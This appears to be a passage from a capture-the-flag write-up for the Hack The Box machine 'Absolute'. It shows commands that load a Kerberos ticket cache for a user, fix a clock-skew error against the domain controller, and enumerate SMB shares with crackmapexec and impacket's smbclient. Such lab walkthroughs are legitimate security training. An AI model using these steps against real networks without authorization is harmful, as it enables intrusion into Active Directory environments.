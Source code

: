 ```bash
export KRB5CCNAME=d.klay.ccache

```

![image11](../resources/0697758d8d714dc6a204db42f1e94a3c.png)

Error: KRB_AP_ERR_SKEW


![image12](../resources/8145238b922444968f523e5ed2309d3c.png)

```bash
sudo ntpdate -u dc.absolute.htb && sudo hwclock --systohc

```

![image13](../resources/19e86cb6d01d48228bd09d1e4b33cdd7.png)

```bash
crackmapexec smb dc.absolute.htb --use-kcache --shares

```

![image14](../resources/3d27e948f1df42e0b81184dee0a9bed9.png)

- We need to use impacket's SMB client because it supports Kerberos authentication:

```bash
impacket-smbclient -k dc.absolute.htb

```

![image15](../resources/312ec966690c4da3927b03a3243f64d2.png)

